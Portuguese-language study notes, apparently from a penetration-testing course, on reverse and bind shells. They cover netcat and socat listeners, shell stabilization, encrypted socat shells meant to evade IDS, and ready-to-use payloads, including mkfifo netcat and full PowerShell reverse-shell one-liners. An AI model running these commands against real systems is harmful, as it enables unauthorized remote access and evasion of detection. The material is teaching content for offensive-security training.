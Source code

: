 ## Reverse shells
quando o alvo é obrigado a executar um código que conecta de volta à máquina atacante. Antes disso, o atacante deve criar um listener.  Reverse shells são uma boa forma de passar pelas regras de firewall que podem impedir que você conecte arbitrariamente às portas do alvo. A desvantagem é que a sua rede deve estar configurada para aceitar a shell.

sintaxe para começar um listener no linux:
- ```nc -lvnp <port-number>```
	- l marca como listener
	- v verbose
	- n netcat não vai usar host names nem DNS
	- p indica que a porta vem em seguida
- É uma boa ideia usar portas como: 80,443,53 por serem mais fáceis de passar pelo firewall do alvo

## Bind shells
São quando o código executado no alvo é usado para iniciar um listener conectado diretamente à uma shell no alvo. Pode-se conectar a ela pela internet. O lado negativo é que o firewall pode atrapalhar.

sintaxe para conectar a um listener:
``nc <target-ip> <chosen-port>``

Elas podem ser:
- interativas: Permitem que você interaja com o programa depois de executa-lo
- não-interativas: Não permitem que você interaja com o programa depois de executa-lo

## Estabilização
Netcat shells costumam ser bem instáveis, já que são processos rodando dentro de um terminal ao invés de terminais genuínos. Então, desenvolveram-se técnicas para estabilizar essas shells.

### Python
Funciona apenas em linux porque praticamente todas tem python instalado por padrão.
1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : Usa o python para instalar uma shell um pouco melhor
2. ``export TERM=xterm`` da acesso a comandos term como: clear
3. Background the shell com ctrl + Z e usa ``stty raw -echo; fg``: isso da acesso a autocomplete, setas e crtl + C para matar processos e ai coloca a shell em primeiro plano
Obs: se a shell morrer não vai aparecer no terminal pois o echo foi desativado. Para resolver digite ``reset`` e aperte enter

### rlwrap
programa feito para dar acesso a comandos do terminal, como histórico, tab autocompletion e setas. Ainda não funciona o crtl + C dentro do terminal.
1. instala o rlwrap com ``sudo apt install rlwrap``
2. o listener tem que ser invocado com: ``rlwrap nc -lvnp <port>``
3. Ctrl + Z e ``stty raw -echo; fg`` estabiliza e entra novamente na shell, possibilite o uso de crtl + C pra matar processos

### Socat
Para alcançar essa estabilização primeiro precisamos transmitir um binário socat estático compilado para a máquina alvo. Uma forma simples de alcançar isso é utilizando um webserver na máquina atacante dentro do diretório que já contém o binário compilado
1. ``sudo python3 -m http.server 80`` inicia o servidor na máquina atacante
2. ``wget <LOCAL-IP>/socat -O /tmp/socat`` na máquina alvo, pelo shell netcat, baixe o arquivo. No exemplo usamos wget, mas pode ser o curl

Em um ambiente windows o mesmo pode ser feito com uma powershell utilizando Invoke-WebRequest ou webrequest dependendo da versão do powershell instalada. 
1. ``Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe``

O socat faz a ligação entre 2 pontos quaisquer.
#### Reverse Shells
Reverse shell listener básico em um socat
``socat TCP-L:<port> -``

No windows (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes``

No linux (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"``

#### Bind Shells

No linux (alvo):
``socat TCP-L:<PORT> EXEC:"bash -li"``

No windows (alvo):
``socat TCP-L:<PORT> EXEC:powershell.exe,pipes``

Na máquina atacante:
``socat TCP:<TARGET-IP>:<TARGET-PORT> -``

#### técnica mais estável
Essa só funciona em linux.

Sintaxe do listener:
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

Use esse comando na máquina alvo:
``socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane``

- **pty:** aloca um pseudo terminal na máquina -- parte do processo de atualização
- **stderr:** todos os erros mostram na shell
- **sigint:** Crtl + C pode ser usado para matar processos
- **setsid:** cria um processo na nova questão
- **sane:** estabelece o terminal
#### Encrypted Shells
Podem ser criadas shells encriptadas para passar IDS.

Precisamos gerar um certificado para criar shells encriptadas.
``openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt``
Esse comando gera uma chave RSA com 2048 bits valido por um ano. Precisamos combinar os dois arquivos em um único ``.pem`` file:
``cat shell.key shell.crt > shell.pem``

Para setar a reverse shell podemos usar:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -``

Para conectar de volta:
``socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash``

##### Para bind
alvo:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``

Atacante:
``socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -``

### Outros pontos
Com qualquer uma das técnicas acima, é útil mudar o tamanho do seu terminal tty (_teletypewriter_).
1. ``stty -a``
2. ``stty rows <number>``
3. ``stty cols <number>``

## Common Shell Payloads
Em algumas verões do netcat (inclindo o nc.exe windows versão incluida no kali em ``/usr/share/windows-resources/binaries`` e a versão usada no kali ``netcat-traditional``) tem a opção ``-e``  que permite executar o processo na conexão. Por exemplo no listener:
``nc -lvnp <PORT> -e /bin/bash``
Conectar no listener acima com o netcat resulta em uma bind shell no alvo.

igualmente pra uma reverse shell:
``nc <LOCAL-IP> <PORT> -e /bin/bash``
(geralmente não é incluída na maior parte das versões do netcat por ser considerado inseguro).  Isso funciona perfeitamente no windows, pois o binário é necessário de qualquer forma.

no linux usamos:
``mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

Para uma reverse shell:
``mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

Para um windows server moderno, geralmente é requerido uma Powershell, para isso use:
``powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``














